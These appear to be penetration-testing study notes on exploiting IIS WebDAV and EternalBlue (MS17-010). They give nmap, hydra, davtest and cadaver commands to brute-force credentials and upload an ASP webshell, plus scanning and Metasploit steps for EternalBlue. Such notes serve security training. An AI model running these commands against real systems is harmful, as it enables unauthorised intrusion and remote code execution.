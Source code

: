 ** WebDAV Vulnerabilities **

- **Overview:**
    
    - IIS is a proprietary extensible web server software developed by Microsoft for use with the NT family. It can be used to host web applications and provides administrators with a GUI for managing websites. It supports both static and dynamic content (ASP.NET, PHP).
        
    - WebDAV is a set of HTTP extensions that allow users to collaboratively edit and manage files on remote web servers. It runs on top of IIS.
        
- **Exploitation:**
    
    1. Identify whether WebDAV has been configured to run on the IIS web server.
        
    2. Perform a brute-force attack on the WebDAV server to identify valid credentials.
        
    3. Once authenticated, upload a malicious `.asp` payload to execute code or gain a reverse shell.
        
- **Tools:** davtest, cadaver
    

```
nmap -sV -p 80 --script=http-enum TargetIP@ # enumerate directories; can reveal WebDAV directory

hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords TargetIP@ http-get /webdav/ # brute-force WebDAV credentials

davtest -auth username:password -url http://TargetIP@/webdav # test for vulnerabilities (e.g., file upload)

cadaver http://TargetIP@/webdav # pseudo shell to interact with WebDAV
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp # upload a webshell to the WebDAV directory
```

** Vulnerability Analysis **

- **Vulnerability Analysis: EternalBlue**
    
    - MS17-010/CVE-2017-0144 is a collection of Windows vulnerabilities that allow attackers to remotely execute arbitrary code and gain access to a Windows system and, potentially, the network it is part of. Developed by the NSA and leaked by the Shadow Brokers group in 2017, EternalBlue was used in the WannaCry ransomware attack. Affected versions include Windows Vista, 7, 8.1, 10, Server 2012, and Server 2016.
        
- **Tools:** AutoBlue_MS17-010
    
- **Exploitation and Scanning:**
    

```
sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 TargetIP@ # scan for EternalBlue vulnerability

# Manual exploitation:
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010
# follow the README instructions

# Using MSF:
msf6 > use windows/smb/ms17_010_eternalblue
```
